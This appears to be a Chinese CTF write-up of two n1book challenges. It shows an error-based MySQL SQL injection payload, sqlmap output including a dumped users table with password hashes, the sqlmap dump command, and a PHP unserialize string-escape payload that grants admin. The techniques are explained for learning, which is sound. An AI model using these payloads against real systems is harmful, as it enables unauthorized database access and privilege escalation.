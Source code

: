 <hr />
<pre><code>Parameter: #1* ((custom) POST)
Type: error-based
Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
</code></pre>
<h5>Payload: name=' AND (SELECT 7087 FROM(SELECT COUNT(<em>),CONCAT(0x71786b7171,(SELECT (ELT(7087=7087,1))),0x717a627671,FLOOR(RAND(0)</em>2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- Uilw&pass=1</h5>
<hr />
<pre><code> [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.0
</code></pre>
ok，直接全扒下来<code>--dump</code>
<pre><code>Database: note
Table: users
[2 entries]
+----+----------------------------------+----------+
| id | passwd                           | username |
+----+----------------------------------+----------+
| 1  | 26f1c86def93bd19fb3ba6ad3d9f2a87 | test     |
| 2  | 26f1c86def93bd19fb3ba6ad3d9f2a87 | admin    |
+----+----------------------------------+----------+
</code></pre>
<h3>最终</h3>
<h5>Payload =<code>sqlmap.py -r 1.txt -D note -T fl4g --dump</code></h5>
问题解决：n1book{bG9naW5fc3FsaV9pc19uaWNl}
<h5>小结</h5>
善用Sqlmap，能跑出来的不多了...

<hr />
<h2>Unserialize++</h2>
<h3>反序列化字符串逃逸</h3>
guest.php
先上payload打到admin，字符串逃逸成功
<h4>payload = your[name.able=uuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuuu&your[pass.able=AA";s:12:"uuuuuuyour_pass";s:2:"AA";s:5:"admin";i:1;}</h4>
<h3>index.php中</h3>
<pre><code>file_put_contents("caches/".hash("sha256", \$\_SERVER['REMOTE_ADDR']), put(serialize($guest)));
</code></pre>
而
<pre><code>function put($data){
$data = str_replace(chr(0)."*".chr(0), 'uuuuuu', $data);
return $data;
}
</code></pre>
每6个u换三个字符，使得name盖过pass的字符并"闭合，然后反序列化就会读取我们准备的字符，即从
<pre><code>'your[pass.able=AA";s:12:"uuuuuuyour_pass";s:2:"AA";s:5:"admin";i:1;}'
</code></pre>
的分号开始

